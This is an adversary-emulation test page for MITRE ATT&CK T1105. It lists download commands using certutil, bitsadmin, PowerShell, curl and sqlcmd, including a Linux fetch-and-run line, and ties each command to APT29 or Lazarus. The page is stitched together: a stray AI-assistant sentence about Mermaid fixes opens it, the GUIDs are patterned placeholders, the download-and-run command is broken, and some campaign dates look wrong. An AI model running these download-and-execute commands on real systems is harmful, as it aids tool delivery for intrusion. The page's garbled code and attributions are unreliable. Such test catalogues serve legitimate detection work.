








I'll correct the Mermaid diagram syntax issues. The problem is with the HTML line breaks (`<br>`) and special characters that need to be properly handled in Mermaid syntax.

# T1105 - Ingress Tool Transfer

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1105)
<blockquote>
Adversaries may transfer tools or other files from an external system into a compromised environment. Files may be copied from an external adversary-controlled system to the victim network through the command and control channel or through alternate protocols such as [ftp](https://attack.mitre.org/software/S0095). Once present, adversaries may also transfer/spread tools between victim devices within a compromised environment (i.e. [Lateral Tool Transfer](https://attack.mitre.org/techniques/T1570)).

Files can also be transferred using various [Web Service](https://attack.mitre.org/techniques/T1102)s as well as native or otherwise pre-installed tools on the victim system.(Citation: Google Download Tool)(Citation: Microsoft MSDT LOLBins)(Citation: Cisco Use of Living Off The Land Binaries and Scripts in Attacks)(Citation: Mandiant APT41)
</blockquote>

### Attack Technique Overview
Ingress Tool Transfer involves adversaries bringing additional tools into a compromised environment. Both APT29 (Russian state-sponsored) and Lazarus Group (North Korean state-sponsored) extensively use this technique to deliver malware, post-exploitation tools, and maintain persistence. They leverage legitimate system utilities and living-off-the-land techniques to evade detection.



## Atomic Tests

- [Atomic Test #7 - certutil download (urlcache)](#atomic-test-7---certutil-download-urlcache)
- [Atomic Test #9 - Windows - BITSAdmin BITS Download](#atomic-test-9---windows---bitsadmin-bits-download)
- [Atomic Test #10 - Windows - PowerShell Download](#atomic-test-10---windows---powershell-download)
- [Atomic Test #15 - File Download via PowerShell](#atomic-test-15---file-download-via-powershell)
- [Atomic Test #18 - Curl Download File](#atomic-test-18---curl-download-file)
- [Atomic Test #27 - Linux Download File and Run](#atomic-test-27---linux-download-file-and-run)
- [Atomic Test #29 - iwr or Invoke Web-Request download](#atomic-test-29---iwr-or-invoke-web-request-download)
- [Atomic Test #32 - File Download with Sqlcmd.exe](#atomic-test-32---file-download-with-sqlcmdexe)

<br/>

## Atomic Test #7 - certutil download (urlcache)
Uses certutil with -urlcache to download files. APT29 has extensively used certutil for downloading additional tools and payloads during operations.

```mermaid
flowchart TD
  A[Attacker HTTP S Server]
  URL[Attacker file URL]
  V[Victim Host]
  Cert[certutil.exe]
  Opt1[-urlcache]
  Opt2[-split]
  Opt3[-f]
  Out[Output file (outfile)]
  Disk[Write file to disk]
  Exec[Optional: Execute downloaded file]

  A -->|hosts file at URL| URL
  V -->|runs: certutil with options| Cert
  Cert --> Opt1
  Cert --> Opt2
  Cert --> Opt3
  Opt1 -->|requests URL over HTTP/HTTPS| URL
  URL -->|HTTP GET response| V
  V -->|download stream -> write| Disk
  Disk --> Out
  Out -->|may be executed| Exec

  style A fill:#fde2e2,stroke:#d9534f
  style Cert fill:#fff8dc,stroke:#d4a017
  style Out fill:#e6ffed,stroke:#1f8d3b
  style Exec fill:#ffe6e6,stroke:#b30000

```

**Supported Platforms:** Windows

**auto_generated_guid:** 7a8b9c0d-1e2f-3a4b-5c6d-7e8f9a0b1c2d

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| output_file | Local output filename | string | Atomic-license.txt |

#### Attack Commands: Run with `command_prompt`! 
```cmd
certutil -urlcache -split -f #{url} #{output_file}
```

#### Dependencies: Run with `powershell`!
##### Description: certutil must be available
##### Check Prereq Commands:
```powershell
if (Get-Command certutil -ErrorAction SilentlyContinue) { exit 0 } else { exit 1 }
```

<br/>

## Atomic Test #9 - Windows - BITSAdmin BITS Download
Uses BITSAdmin to schedule file downloads. Both APT29 and Lazarus use BITSAdmin for stealthy file transfers.



**Supported Platforms:** Windows

**auto_generated_guid:** 9a8b7c6d-5e4f-3a2b-1c0d-9e8f7a6b5c4d

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| output_file | Local output filename | path | %TEMP%\Atomic-license.txt |

#### Attack Commands: Run with `command_prompt`! 
```cmd
bitsadmin /transfer AtomicDownload /Priority HIGH #{url} #{output_file}
```

#### Dependencies: Run with `powershell`!
##### Description: BITSAdmin must be available
##### Check Prereq Commands:
```powershell
if (Get-Command bitsadmin -ErrorAction SilentlyContinue) { exit 0 } else { exit 1 }
```

<br/>

## Atomic Test #10 - Windows - PowerShell Download
Uses .NET WebClient to download files. Common technique used by both APT29 and Lazarus groups.



**Supported Platforms:** Windows

**auto_generated_guid:** 0a1b2c3d-4e5f-6a7b-8c9d-0e1f2a3b4c5d

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| output_file | Local output filename | path | $env:TEMP\Atomic-license.txt |

#### Attack Commands: Run with `powershell`! 
```powershell
(New-Object System.Net.WebClient).DownloadFile("#{url}", "#{output_file}")
```

<br/>

## Atomic Test #15 - File Download via PowerShell
Uses DownloadString with Out-File for downloads. Both groups use this method for downloading and writing files.



**Supported Platforms:** Windows

**auto_generated_guid:** 1d2c3b4a-5e6f-7a8b-9c0d-1e2f3a4b5c6d

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| output_file | Local output filename | string | LICENSE.txt |

#### Attack Commands: Run with `powershell`! 
```powershell
(New-Object Net.WebClient).DownloadString('#{url}') | Out-File #{output_file}
```

<br/>

## Atomic Test #18 - Curl Download File
Uses curl.exe to download files on Windows. Lazarus Group frequently uses curl for downloading tools.



**Supported Platforms:** Windows

**auto_generated_guid:** 2e3d4c5b-6a7b-8c9d-0e1f-2a3b4c5d6e7f

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.010/bin/AllTheThingsx64.dll |
| output_file | Local output filename | path | C:\Users\Public\Music\allthethingsx64.dll |

#### Attack Commands: Run with `command_prompt`! 
```cmd
curl -k #{url} -o #{output_file}
```

#### Dependencies: Run with `powershell`!
##### Description: curl must be available
##### Check Prereq Commands:
```powershell
if (Get-Command curl -ErrorAction SilentlyContinue) { exit 0 } else { exit 1 }
```

<br/>

## Atomic Test #27 - Linux Download File and Run
Uses curl to download and execute on Linux. Lazarus targets Linux environments using this method.



**Supported Platforms:** Linux

**auto_generated_guid:** 3f4e5d6c-7a8b-9c0d-1e2f-3a4b5c6d7e8f

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1105/src/atomic.sh |

#### Attack Commands: Run with `sh`! 
```sh
curl -sO #{url}; chmod +x atomic.sh | bash atomic.sh
```

#### Dependencies: Run with `sh`!
##### Description: curl must be available
##### Check Prereq Commands:
```sh
if command -v curl >/dev/null 2>&1; then exit 0; else exit 1; fi
```

<br/>

## Atomic Test #29 - iwr or Invoke Web-Request download
Uses Invoke-WebRequest (iwr) as an alternative download method. APT29 uses this technique.



**Supported Platforms:** Windows

**auto_generated_guid:** 4a5b6c7d-8e9f-0a1b-2c3d-4e5f6a7b8c9d

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| output_file | Local output filename | path | $env:TEMP\Atomic-license.txt |

#### Attack Commands: Run with `powershell`! 
```powershell
Invoke-WebRequest -URI #{url} -OutFile #{output_file}
```

<br/>

## Atomic Test #32 - File Download with Sqlcmd.exe
Uses sqlcmd for file downloads. APT29 has abused SQLCMD for file transfers.



**Supported Platforms:** Windows

**auto_generated_guid:** 5b6c7d8e-9f0a-1b2c-3d4e-5f6a7b8c9d0e

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1105/src/T1105.zip |
| output_file | Local output filename | path | C:\T1105.zip |

#### Attack Commands: Run with `powershell`! 
```powershell
sqlcmd -i #{url} -o #{output_file}
```

#### Dependencies: Run with `powershell`!
##### Description: sqlcmd must be available
##### Check Prereq Commands:
```powershell
if (Get-Command sqlcmd -ErrorAction SilentlyContinue) { exit 0 } else { exit 1 }
```

## Correlation with APT29 & Lazarus

**APT29 Focus:**
- Living-off-the-land techniques (certutil, sqlcmd)
- Multiple PowerShell variants
- Used for stealthy tool transfer during espionage operations

**Lazarus Group Focus:**
- BITSAdmin for persistence
- PowerShell download cradles
- Cross-platform tools (curl on Windows and Linux)
- Used for initial payload delivery and lateral movement

**Overlap:**
- Both groups use BITSAdmin and PowerShell
- Both employ multiple redundant methods for tool transfer
- Both leverage legitimate system utilities to evade detection

## Campaign References
1. **APT29 SolarWinds Campaign** (2020): Used certutil, PowerShell, and BITSAdmin for tool transfer
2. **Lazarus Operation Dream Job** (2016-2017): Used BITSAdmin and PowerShell for malware downloads
3. **APT29 COVID-19 Vaccine Targeting** (2020): Used multiple download methods for tooling
4. **Lazarus Linux Targeting** (2018-2021): Used curl and wget on Linux systems

## Academic References
1. MITRE ATT&CK Technique T1105 - Ingress Tool Transfer
2. Microsoft: "NOBELIUM targeting IT supply chain" (2021)
3. US-CERT: "Hidden Cobra - North Korean Malicious Cyber Activity" (2017-2021)
4. CrowdStrike: "APT29 Targets COVID-19 Vaccine Development" (2020)
5. FireEye: "APT29 Domain Fronting With TOR" (2017)